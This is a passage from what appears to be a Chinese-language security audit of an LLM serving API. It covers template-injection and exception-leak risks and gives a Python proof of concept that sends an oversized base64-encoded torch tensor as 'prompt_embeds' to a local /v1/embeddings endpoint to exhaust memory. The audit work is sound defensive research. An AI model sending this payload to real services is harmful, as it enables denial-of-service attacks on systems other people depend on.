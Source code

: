**风险**:
- 用户控制的模板内容可能导致代码执行
- 模板错误信息可能泄露敏感信息
- 绕过模板沙箱的可能性

### 2.5 未捕获异常信息泄露 (中危)

**位置**: 多个文件中的异常处理

```python
# 通用模式
except Exception as e:
    return self.create_error_response(f"{e} {e.__cause__}")
```

**风险**:
- 异常信息可能包含敏感的系统信息
- 堆栈跟踪可能暴露内部结构
- 可能被用于系统指纹识别

## 3. 深度漏洞利用PoC

### 3.1 Base64反序列化攻击
```python
import base64
import io
import torch

def create_malicious_tensor_payload():
    """创建恶意的tensor负载"""
    # 创建一个巨大的tensor来消耗内存
    large_tensor = torch.zeros(10000, 10000)  # 400MB
    
    # 序列化
    buffer = io.BytesIO()
    torch.save(large_tensor, buffer)
    buffer.seek(0)
    
    # base64编码
    encoded = base64.b64encode(buffer.read()).decode()
    return encoded

def exploit_base64_deserialization():
    """利用base64反序列化漏洞"""
    url = "http://localhost:8000/v1/embeddings"
    
    malicious_payload = create_malicious_tensor_payload()
    
    payload = {
        "model": "text-embedding-ada-002",
        "input": "test",
        "prompt_embeds": malicious_payload  # 恶意base64数据
    }
    
    try:
        response = requests.post(url, json=payload)
        print(f"Response: {response.status_code}")
        print(f"Content: {response.text[:200]}...")
    except Exception as e:
        print(f"Error: {e}")
```
